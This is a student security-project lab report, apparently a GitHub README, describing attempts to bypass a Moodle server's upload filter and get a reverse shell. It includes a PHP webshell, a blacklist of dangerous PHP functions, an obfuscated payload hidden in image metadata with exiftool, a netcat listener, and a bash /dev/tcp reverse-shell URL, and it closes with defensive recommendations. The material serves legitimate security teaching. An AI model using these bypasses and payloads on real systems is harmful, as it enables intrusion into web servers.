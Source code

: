 # 🛡️ SSI Project – Red Team Exploitation Report

Ce rapport présente les différentes tentatives d’exploitation réalisées dans le cadre du projet de sécurité des systèmes d'information (SSI), depuis une machine Kali Linux visant à compromettre le serveur web Moodle hébergé sur Ubuntu.  
L'objectif : **obtenir un reverse shell** à partir d'une faille d'upload.

---

## 🔍 Objective

The aim of the attack was to :

- Bypass the **upload file filtering** system
- Upload a **file containing malicious PHP code**.
- Execute this code remotely via the browser
- Establish a **reverse shell connection** to the Kali machine (attacker)

---

## 🔓 Technical context

- Target machine (victim)** : Ubuntu 22.04, Moodle server with an upload form
- Attacking machine** : Kali Linux on the same local network (192.168.56.X)
- PHP-side back-end filtering** prevents the upload of suspicious files via a blacklist of strings such as :

php
eval(, system(, exec(, shell_exec(, base64_decode(,
passthru(, pcntl_exec(, posix_getuid(, <script>, etc.

---

🧨Attack I – Reverse Shell Attempts

### Step 1: Create a PHP reverse shell

On Kali, I created a basic shell:
    
    '''bash
    <?php system($_GET['cmd']); ?>
    '''

### Step 2: Attempt to bypass with double extensions

- First attempt: rename file to shell.php.png
- Then: shell.png.php
    
![image](https://github.com/user-attachments/assets/00e97c40-51be-48d6-8671-289b41d04f29)
         
I then tried uploading the malicious file:   
         ![image](https://github.com/user-attachments/assets/699bb173-b445-476f-9f4a-ee2bbad396f5)
         

We obtained :

![image](https://github.com/user-attachments/assets/26c0b211-1f3f-4d17-b24f-16c3fb27d836)

🔴 Failed: The backend detected the malicious content, despite the file appearing as an image.


Error message:


❌ File failed security scan


---
    
    
Filtering Bypass Attempts

Attempt: Appending PHP payload directly to an image
   
     '''bash
     echo "<?php system(\$_GET['cmd']); ?>" >> shell.png
     mv shell.png shell.php.png
     '''
 
          
     
Working Solution: Metadata Injection + Obfuscation 

   1. Use a clean, existing image
    
          '''bash
          cp /usr/share/icons/gnome/256x256/devices/computer.png shell.png
          '''
                  
        ![image](https://github.com/user-attachments/assets/d6660168-cb58-419d-b93f-e2ee53d6af1f)

    
   2. Inject an obfuscated PHP payload into the image’s metadata
        
          '''bash
          exiftool -Title='<?php $x="call"."_user_func"; $x($_GET["a"], $_GET["b"]); ?>' shell.png
          '''
    
   This avoids all blacklisted keywords (system, eval, etc.)        
    
   3. Renommer l’image avec une double extension
    
          '''bash
          mv shell.png shell.php.png
          '''

   4. Upload successful  

   ![image](https://github.com/user-attachments/assets/24ff24d8-0afd-49c9-a9ed-a2ddf21052de)
    

The file passed the scan because :

- The visible image content was clean

- The malicious payload was hidden in metadata

- No blacklisted strings were detected


---
   
Final Goal: Trigger Remote Code Execution

1. Start a Netcat listener on Kali:


        '''bash
        nc -lvnp 4444
        '''

   ![image](https://github.com/user-attachments/assets/f4e72480-6804-4099-8820-356d4f934546)
    
 2. Trigger the payload through the browser
             
         '''bash
         http://192.168.56.101:5173/upload/shell.php.png?a=system&b=bash+-c+'bash+-i+>%26+/dev/tcp/192.168.56.102/4444+0>%261'         
         '''


Conclusion :

Although the full reverse shell wasn’t successfully established (due to server-side execution restrictions or PHP config), the following was achieved:

✅ Successfully bypassed file upload filtering
✅ Uploaded a disguised PHP webshell
✅ Injected a stealthy payload using image metadata
✅ Identified and documented backend protections

This demonstrates that poorly configured file upload systems remain vulnerable, especially when tools like exiftool can inject code into alternate vectors like metadata.




Blue Team Recommendations :

To improve the defense against such attacks:

✅ Implement deep filtering of metadata (Title, Description, EXIF Comment)

✅ Disable PHP execution in upload directories

✅ Rename and hash uploaded files server-side

✅ Add server-side antivirus scanning (e.g., ClamAV) and sandbox execution for analysis
